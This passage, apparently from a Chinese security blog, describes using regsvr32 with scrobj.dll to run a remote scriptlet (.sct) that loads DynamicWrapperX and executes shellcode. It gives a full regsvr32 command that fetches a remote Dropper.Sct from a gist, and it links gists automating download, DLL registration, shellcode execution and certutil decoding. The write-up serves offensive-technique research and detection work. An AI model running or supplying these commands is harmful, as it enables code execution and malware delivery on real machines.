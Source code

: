 ## 0x04 regsvr32利用方式
---
前面提到过dynwrapx.dll是一个32位的dll，注册的组件也只能供32位程序调用

所以在64位系统下使用需要注意如下：

1. 只支持x86 shellcode
2. 在64位系统下要使用syswow64文件夹下的32位程序

利用方式：

```
C:\Windows\SysWow64\regsvr32.exe /s /u /i:[sct路径] scrobj.dll
```

将js代码写到sct文件中，就可以将其放到服务器上

**实现远程调用sct的实例地址：**

https://gist.github.com/subTee/ca6ab8ec75ec38c213da580cd0de30fe



**自动化download, register dll, execute Shellcode的实例地址：**

https://gist.github.com/subTee/aa548b36b5d3c8f07e2024ab39217712

里面多了一个调用certuil.exe对文件进行base64加解密

cmd下执行如下代码实现远程调用sct：

```
C:\Windows\SysWow64\regsvr32.exe /s /u /i:https://gist.githubusercont
ent.com/subTee/aa548b36b5d3c8f07e2024ab39217712/raw/5dc12c648229574e6172a70ba13f
db220ef1a2e8/Dropper.Sct scrobj.dll
```

**注：**

使用前需要提前安装DynamicWrapperX

实际测试如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-9-13/3-5.png)


## 0x05 补充
---
最新的DynamicWrapperX已经支持x64，版本为DynamicWrapperX 2.0

**相关地址：**

http://www.minner.ru/html/Dynwrapx.html

在64位系统上面需要分别注册32位和64位的DynamicWrapperX

64位dll注册成功后，js脚本可直接运行，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-9-13/3-3.png)
